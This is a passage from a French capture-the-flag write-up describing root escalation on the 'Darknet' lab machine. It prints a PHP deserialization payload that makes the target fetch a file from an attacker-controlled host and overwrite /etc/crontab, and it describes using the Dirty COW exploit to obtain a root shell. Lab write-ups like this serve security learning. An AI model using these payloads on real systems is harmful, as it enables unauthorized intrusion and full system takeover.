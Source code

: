 L'exploitation semble on ne peut plus facile : on écrit un script qui instancie un objet Test, écrit les différentes valeurs pour lire une URL sous contrôle et recopier son contenu dans /etc/crontab puis on appelle *serialize()* avant d'envoyer le résultat vers *sec.php* :  

```plain
O:4:"Test":3:{s:3:"url";s:33:"http://192.168.2.240:8000/crontab";s:9:"name_file";s:7:"crontab";s:4:"path";s:4:"/etc";}
```

Sauf que ça ne marche pas... WTF ! Evidemment ça fonctionne sur des tests locaux... Mais il semble que d'autres ont eu des problèmes avec cette VM (espace disque insuffisant, etc).  

Finalement j'ai utilisé [l'exploit de FireFart](https://github.com/FireFart/dirtycow/blob/master/dirty.c) pour [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW) qui édite le fichier */etc/passwd* pour remplacer root par un utilisateur *firefart* avec un mot de passe de notre choix :  

```plain
firefart@Darknet:~# id
uid=0(firefart) gid=0(root) grupos=0(root)
firefart@Darknet:~# ls
flag.txt
firefart@Darknet:~# cat flag.txt
      ___           ___           ___           ___           ___           ___           ___     
     /\  \         /\  \         /\  \         /\__\         /\__\         /\  \         /\  \    
    /::\  \       /::\  \       /::\  \       /:/  /        /::|  |       /::\  \        \:\  \   
   /:/\:\  \     /:/\:\  \     /:/\:\  \     /:/__/        /:|:|  |      /:/\:\  \        \:\  \  
  /:/  \:\__\   /::\~\:\  \   /::\~\:\  \   /::\__\____   /:/|:|  |__   /::\~\:\  \       /::\  \ 
 /:/__/ \:|__| /:/\:\ \:\__\ /:/\:\ \:\__\ /:/\:::::\__\ /:/ |:| /\__\ /:/\:\ \:\__\     /:/\:\__\
 \:\  \ /:/  / \/__\:\/:/  / \/_|::\/:/  / \/_|:|~~|~    \/__|:|/:/  / \:\~\:\ \/__/    /:/  \/__/
  \:\  /:/  /       \::/  /     |:|::/  /     |:|  |         |:/:/  /   \:\ \:\__\     /:/  /     
   \:\/:/  /        /:/  /      |:|\/__/      |:|  |         |::/  /     \:\ \/__/     \/__/      
    \::/__/        /:/  /       |:|  |        |:|  |         /:/  /       \:\__\                  
     ~~            \/__/         \|__|         \|__|         \/__/         \/__/                 

     Sabia que podias Campeon!, espero que esta VM haya sido de tu agrado y te hayas divertido
     tratando de llegar hasta aca. Eso es lo que realmente importa!.

#Blog: www.securitysignal.org

#Twitter: @SecSignal, @q3rv0
```

Richenou
--------

Ce CTF m'a donné du fil à retordre mais m'a permis de découvrir de nouveaux outils, techniques et jouer avec des failles peu courantes :)

*Published March 27 2018 at 12:02*
